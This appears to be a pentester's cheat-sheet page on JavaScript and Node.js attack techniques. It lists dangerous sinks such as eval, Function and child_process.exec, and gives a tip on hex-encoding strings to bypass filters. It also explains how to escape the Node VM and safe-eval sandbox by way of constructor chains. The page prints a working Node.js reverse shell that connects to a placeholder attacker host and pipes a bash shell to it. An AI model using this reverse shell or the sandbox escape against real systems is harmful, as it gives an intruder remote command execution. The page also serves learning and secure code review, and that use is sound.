 # JavaScript

### Notes
- JavaScript strings can be natively hex-encoded e.g. `"\\\\x2fbin\\\\x2fbash"` - useful for string/regex bypass

### Dangerous Functions

```js
/* RCE */
eval()                  //evaluate string as a javascript code
safe-eval()             //same as eval, but more secure however sandbox escape exists (NSP 337, CVE-2017-16088)
setTimeout(string, 2)
setInterval(string)
Function(string)

/* Command Execution */
child_process.exec()

/* LFI */
require()
```

### Reverse Shell

```js
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(80, "attackerip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```

### Escaping NodeJS VM (sandbox)

- Escaping NodeJS VM or `safe-eval` is possible, see - and [escape.js](/vulnerable-code-examples/js/escape.js) for PoC

**Summary**

- Just about everything in JavaScript has a constructor which can be accessed (any primitive data type/object).
- Even the constructor has a constructor, and that constructor is the constructor of functions.
- If you call the `function constructor` with a string argument, it basically does an `eval` and makes a function whose body is that string. (wtf)
- The provided context in the `safe-eval` makes this more difficult to work with, however unless the context is limited to ONLY primitive types, we can likely still break out of the sandbox by accessing the constructor of a non-primitive object in the context.
- We can then use for `require` to get other dependencies (`child_process`), to execute `exec` to get a reverse shell.

Other useful resources for understanging the JavaScript sandbox workings:
- https://www.wispwisp.com/index.php/2019/08/16/cve-2017-16088-poc/
- https://odino.org/eval-no-more-understanding-vm-vm2-nodejs/
